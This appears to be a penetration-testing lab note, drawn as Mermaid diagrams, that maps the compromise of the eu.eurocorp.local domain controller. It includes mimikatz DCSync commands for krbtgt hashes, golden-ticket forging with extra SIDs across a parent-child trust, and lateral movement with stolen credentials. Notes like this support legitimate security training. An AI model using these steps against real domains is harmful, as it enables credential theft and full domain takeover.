


# eu-dc — eu.eurocorp.local Domain Controller Compromise

## Attack Path

```mermaid
flowchart TD
    START_A(["🔑 Access to eu-sqlx\n(SQL chain or dbadmin creds)"])
    START_B(["🔑 eurocorp-dc access\n(referral ticket / DA)"])

    subgraph from_sql["Path A: From eu-sqlx → eu-dc"]
        S1["eu-sqlx is in eu.eurocorp.local\nSame forest as eurocorp-dc"]
        S2["With shell on eu-sqlx\nEnumerate eu.eurocorp.local\nGet-DomainComputer -Domain eu.eurocorp.local\nGet-ADDomain -Identity eu.eurocorp.local"]
        S3["Check eu-dc trust with eurocorp-dc\neu.eurocorp.local is child of eurocorp.local\nParent-child trust = no SID filtering"]
        S4["Enumerate delegation on eu.eurocorp machines\nGet-DomainComputer -TrustedToAuth\n-Domain eu.eurocorp.local"]
        S5["Lateral movement from eu-sqlx\nUsing dbadmin creds\nwinrs / PSRemoting to other eu machines"]
    end

    subgraph from_eurocorp["Path B: From eurocorp-dc → eu-dc"]
        EC1["eurocorp-dc is parent of eu.eurocorp.local\nParent-child trust = transitive\nDA on eurocorp.local → access eu.eurocorp.local"]
        EC2["Extract eurocorp krbtgt hash\nlsadump::dcsync /domain:eurocorp.local\n/user:eurocorp\\krbtgt"]
        EC3["Golden ticket with EU child SID\nkerberos::golden /user:Administrator\n/domain:eurocorp.local\n/sid:EUROCORP_SID\n/sids:EU_DOMAIN_SID-519\n/krbtgt:EUROCORP_KRBTGT\n/ptt"]
        EC4["OR DCSync eu.eurocorp.local directly\nlsadump::dcsync\n/domain:eu.eurocorp.local\n/user:eu\\krbtgt"]
        EC5["✅ DA in eu.eurocorp.local"]
    end

    subgraph eu_dc_persist["Phase 3: eu-dc Post Compromise"]
        P1["DCSync eu.eurocorp.local\nlsadump::dcsync /user:krbtgt\n/domain:eu.eurocorp.local"]
        P2["Golden ticket for eu.eurocorp.local"]
        P3["Enumerate further from eu-dc\nAny additional resources?\nFurther lateral movement in eurocorp forest"]
        P4["Check LAPS, GPOs, ACLs\nin eu.eurocorp.local"]
    end

    subgraph note["Key Points"]
        N1["eu.eurocorp.local is child of eurocorp.local\nSame forest = no SID filtering\nbetween eu-dc and eurocorp-dc"]
        N2["eurocorp.local external trust with moneycorp\nSID filtering IS active on that boundary\nCannot go: moneycorp → eurocorp → eu-dc\nwith SID history"]
    end

    START_A --> S1 --> S2 --> S3 --> S4 --> S5
    START_B --> EC1 --> EC2 --> EC3 & EC4 --> EC5
    S5 --> P1
    EC5 --> P1 --> P2 & P3 & P4
    N1 ~~~ N2

    style START_A fill:#4CAF50,color:#fff
    style START_B fill:#4CAF50,color:#fff
    style EC5 fill:#f44336,color:#fff
    style N1 fill:#FF9800,color:#fff
    style N2 fill:#9C27B0,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((eu-dc))
    Location
      eu.eurocorp.local
        Child of eurocorp.local
        Same forest as eurocorp-dc
        No SID filtering internally
    Access from eu-sqlx
      SQL chain landed here
        dbadmin credentials
        Shell on eu-sqlx
      Enumerate eu domain
        Get-DomainComputer
        Trust enumeration
      Lateral from eu-sqlx
        winrs / PSRemoting
        Using dbadmin creds
    Access from eurocorp-dc
      Parent-child trust
        eurocorp.local → eu.eurocorp.local
        Transitive trust
        No SID filtering
      eurocorp krbtgt hash
        DCSync eurocorp.local
        Golden ticket + EU SIDs
      Direct DCSync
        lsadump::dcsync
        /domain:eu.eurocorp.local
    Trust Boundary
      External trust limit
        moneycorp ↔ eurocorp = SID filter
        Cannot cross with SID history
        Must compromise eurocorp first
      Internal forest
        eurocorp-dc → eu-dc = no filter
        Full escalation possible
```
